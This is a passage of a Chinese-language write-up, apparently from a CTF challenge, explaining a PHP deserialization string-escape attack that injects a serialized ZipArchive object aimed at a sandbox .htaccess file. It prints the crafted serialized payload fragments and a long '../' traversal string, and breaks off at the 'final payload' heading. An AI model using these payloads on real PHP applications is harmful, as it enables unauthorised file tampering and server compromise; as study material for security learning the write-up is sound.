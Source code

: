根据前面的探索利用，将第二个文件的fakename改成需要构造的ZipArchive的序列化值，如果想单独溢出注入ZipArchive对象，就需要将第二个文件对象中fakename值的前后部分都需要被溢出才行：
- 后面部分：
```
";s:8:"realname";s:44:"75a9c6a2fcb5d7c6809ec7c1a5859a7f83637159.jpg
```

67个无用字符，所以ZipArchive序列化对象中的comment的长度为67，部分构造如下：

```
i:1;O:10:"ZipArchive":7:`{`s:8:"fakename";s:58:"sandbox/ded5a68df70145b3a0bbe9c4290a729d37071e54/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"

```
- 前面部分：
因为第一个文件对象中的fakename需要溢出到第二个文件的fakename值的位置，所以第二个文件对象的fakename值还需要加一部分：

```
";s:8:"realname";s:1:"A";`}`
```

PS：此处的realname内容是什么无所谓，主要是为了序列化的完整性

第二个文件对象最终的fakename值如下：

```
";s:8:"realname";s:1:"A";`}`i:1;O:10:"ZipArchive":7:`{`s:8:"fakename";s:58:"sandbox/ded5a68df70145b3a0bbe9c4290a729d37071e54/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"
```

处理完第二个文件对象的fakename就需要处理第一个文件对象的fakename：

同时，要想ZipArchive对象成功溢出，就需要从第一个文件对象fakename值溢出到第二个文件对象的fakename值，所以第一个fakename值需要溢出的部分为：

```
";s:8:"realname";s:44:"3c4578834eed3f05bd8b099e7fc2c633af6c5fdc.jpg";`}`i:1;O:10:"UploadFile":2:`{`s:8:"fakename";s:7:"
```

可是这样是不正确的，正确部分的应该是：

```
";s:8:"realname";s:44:"3c4578834eed3f05bd8b099e7fc2c633af6c5fdc.jpg";`}`i:1;O:10:"UploadFile":2:`{`s:8:"fakename";s:253:"
```

因为我们必须先修改第二个对象的fakename值，然后才能依据重新反序列化的Cooke[files]修改第一个的fakename，而此时的第二个fakename长度已经改变，不再是7，所以这部分溢出的长度为117，因此第一个文件的fakename值就是117个`../`。

```
../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../
```

**最终payload**

依据上述的分析，先修改第二个文件对象的fakename然后再修改第一个文件对象的fakename(不能互换！！！)
